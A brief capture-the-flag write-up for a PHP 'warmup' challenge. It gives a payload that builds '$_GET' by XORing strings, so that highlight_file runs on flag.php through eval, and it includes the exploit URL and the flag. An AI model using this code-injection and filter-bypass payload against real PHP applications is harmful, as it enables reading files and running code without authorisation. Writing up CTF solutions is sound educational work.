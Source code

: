 **Challenge:** http://69.90.132.196:5003/?view-source

Payload: <code>$\_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php</code>

Explaining:
  - <code>$\_="`{{{"^"?<>/";</code> | Result of xor operation: <code>$\_="_GET"</code>
  - <code>${$_}[_](${$_}[__]);</code> | <code>$_GET[_]($_GET[__])</code>
  - Setting the parameters, eval function will run: <code>eval(highlight_file('flag.php'))</code>

**<a target='blank' href="http://69.90.132.196:5003/?warmup=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_](${$_}[__]);&_=highlight_file&__=flag.php" >Get the flag</a>**

**Flag**: ASIS{w4rm_up_y0ur_br4in}
